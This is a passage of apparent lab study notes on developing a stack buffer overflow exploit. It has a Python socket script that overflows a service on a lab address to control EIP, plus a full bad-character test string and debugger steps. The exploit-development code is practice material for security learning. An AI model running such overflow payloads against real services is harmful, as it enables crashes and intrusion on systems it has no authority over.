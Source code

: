 ```python
      print("Cannot connect to the server")
      sys.exit()
```

- we control the EIP when its overwritten with the 4 B's 42424242
- find badchars
- https://github.com/cytopia/badchars
- update our code with the badchars variable

```python
import socket
import sys

username = b"oskar"
message = b"A" * 2012 + b"B" * 4
badchars = (
  b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
  b"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
  b"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
  b"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
  b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
  b"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
  b"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
  b"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
  b"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
  b"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
  b"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
  b"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
  b"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
  b"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
  b"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
  b"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

try:
      print("Sending Payload...")
      s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
      s.connect(('192.168.0.24',9999))
      s.recv(1024)
      s.recv(1024)
      s.send(username + b'\r\n')
      s.recv(1024)
      s.send(message + badchars + b'\r\n')
      s.recv(1024)
      s.close()

except:
      print("Cannot connect to the server")
      sys.exit()
```

- run and program should crash
- right click on ESP and follow in dump
